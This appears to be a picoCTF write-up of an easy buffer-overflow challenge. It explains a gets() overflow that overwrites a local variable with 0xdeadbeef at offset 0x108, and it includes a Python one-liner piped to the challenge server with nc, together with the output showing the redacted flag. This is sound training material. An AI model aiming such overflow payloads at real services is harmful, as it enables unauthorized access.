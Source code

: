 Quite an easy vulnerability exploitation
We receive a binary that is served through a socket server

Loaded up to binary ninja

<img width="701" height="537" alt="code" src="https://github.com/user-attachments/assets/3367d915-e620-4c67-80c2-90a42c961e37" />

It has a classic `gets` buffer overflow. 
The binary is a 64bit binary and the `gets` function is limiting us from sending zeroes...
So we won't be able to send a ROP chain based on the program itself (binary has no PIE) because of the multiple zeroes we'll have to fill in...

Instead of that we can overflow the code variable which is zeroed at the start.
As you can see the stack diff between the buf and the code is 0x108

<img width="455" height="283" alt="stack" src="https://github.com/user-attachments/assets/0e52daea-6bb4-47e8-91c8-fefe00ca015f" />


So we'll only have to make code's value `0xdeadbeef` and we'll be able to lead the program to the system call that reads the `flag.txt`

```
python3 -c 'import sys, struct; sys.stdout.buffer.write(b"\xFF" * 0x108 + struct.pack("<L", 0xdeadbeef) + b"\n")' | nc mars.picoctf.net 31890
 ______________________________________________________________________
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ==================^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ___ ^ ^ ^ ^ /                  \^ ^ |
|^ ^_^ ^ ^ ^ =========^ ^ ^ ^ _ ^ /   \ ^ _ ^ / |                | \^ ^|
| ^/_\^ ^ ^ /_________\^ ^ ^ /_\ | //  | /_\ ^| |   ____  ____   | | ^ |
|^ =|= ^ =================^ ^=|=^|     |^=|=^ | |  {____}{____}  | |^ ^|
| ^ ^ ^ ^ |  =========  |^ ^ ^ ^ ^\___/^ ^ ^ ^| |__%%%%%%%%%%%%__| | ^ |
|^ ^ ^ ^ ^| /     (   \ | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |/  %%%%%%%%%%%%%%  \|^ ^|
.-----. ^ ||     )     ||^ ^.-------.-------.^|  %%%%%%%%%%%%%%%%  | ^ |
|     |^ ^|| o  ) (  o || ^ |       |       | | /||||||||||||||||\ |^ ^|
| ___ | ^ || |  ( )) | ||^ ^| ______|_______|^| |||||||||||||||lc| | ^ |
|'.____'_^||/!\@@@@@/!\|| _'______________.'|==                    =====
|\|______|===============|________________|/|""""""""""""""""""""""""""
" ||""""||"""""""""""""""||""""""""""""""||"""""""""""""""""""""""""""""
""''""""''"""""""""""""""''""""""""""""""''""""""""""""""""""""""""""""""
""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
"""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
My room is so cluttered...
What do you see?
code == 0xdeadbeef: how did that happen??
take a flag for your troubles
picoCTF{XXXXXXXXXXXXXXXXX}
```
